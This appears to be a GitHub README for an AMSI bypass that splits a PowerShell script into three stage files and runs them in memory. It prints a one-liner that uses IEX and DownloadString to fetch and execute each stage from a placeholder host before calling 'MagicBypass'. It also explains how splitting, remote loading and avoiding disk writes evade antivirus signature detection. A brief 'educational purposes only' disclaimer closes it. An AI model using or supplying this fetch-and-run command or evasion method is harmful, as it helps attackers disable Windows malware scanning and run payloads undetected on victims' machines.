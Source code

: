 ### AMSI Bypass Using Script Splitting and In-Memory Execution

This repository demonstrates a technique to bypass **AMSI (Antimalware Scan Interface)** by splitting a PowerShell script into multiple files and loading them into memory. This approach helps evade signature-based detection used by antivirus (AV) solutions.

#### Steps Performed:
1. **Code Development**:
   - Created a PowerShell script designed to bypass AMSI.
   - Split the script into three separate files: `stage_1.ps1`, `stage_2.ps1`, and `stage_3.ps1`.

2. **Script Execution**:
   - Used the `IEX` (Invoke-Expression) command to download and execute each script in memory:
     ```powershell
     IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_1.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("http://IP/stage_3.ps1"); MagicBypass;
     ```
   - This method avoids writing malicious code to disk, making it harder for AV tools to detect.

3. **In-Memory Execution**:
   - By loading the scripts directly into memory, the bypass technique remains stealthy and effective against traditional file-based detection mechanisms.

#### Why This Works:
- **Script Splitting**: Dividing the code into smaller files helps evade signature-based detection, as the individual files may not match known malicious patterns.
- **In-Memory Execution**: Executing code in memory avoids leaving traces on disk, reducing the chances of detection by AV solutions.
- **Obfuscation**: The use of `IEX` and remote loading adds an additional layer of obfuscation.

**Disclaimer**: This technique is for educational purposes only and should be used responsibly in authorized environments.

**Reference**: https://github.com/V-i-x-x/AMSI-BYPASS
